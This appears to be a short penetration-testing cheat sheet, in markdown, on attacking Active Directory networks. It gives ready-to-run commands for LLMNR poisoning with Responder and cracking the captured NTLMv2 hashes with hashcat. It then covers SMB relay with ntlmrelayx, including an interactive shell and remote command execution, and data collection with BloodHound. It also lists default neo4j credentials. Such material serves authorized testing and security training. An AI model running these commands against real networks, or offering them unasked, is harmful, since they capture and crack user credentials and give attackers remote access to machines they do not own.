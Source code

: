 ## Active Directory Attacks

### Initial Attack Vectors

#### LLMNR Poisoning
```bash
# Start Responder
sudo responder -I tun0 -dwPv

# Crack Hashes
hashcat -m 5600 ntlmv2.txt /usr/share/wordlists/rockyou.txt -O
```

#### SMB Relay
```bash
# Step 1: Disable SMB and HTTP in Responder
vim /etc/responder/Responder.conf
# Set SMB = Off and HTTP = Off

# Step 2: Find targets without SMB signing
nmap --script=smb2-security-mode.nse -p445 <target-range> -Pn

# Step 3: Create targets.txt with vulnerable hosts
# Step 4: Setup relay
sudo ntlmrelayx.py -tf targets.txt -smb2support

# Optional: Get interactive shell
sudo ntlmrelayx.py -tf targets.txt -smb2support -i

# Optional: Execute command
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "whoami"
```

### Post-Compromise Enumeration

#### BloodHound
```bash
# Step 1: Install and start neo4j
sudo neo4j start
# Default credentials: neo4j:neo4j

# Step 2: Start BloodHound
bloodhound

# Step 3: Collect data
bloodhound-python -d DOMAIN -u user -p password -ns DC-IP -c all

# Step 4: Import data into BloodHound
# Drag and drop .json files into interface
```
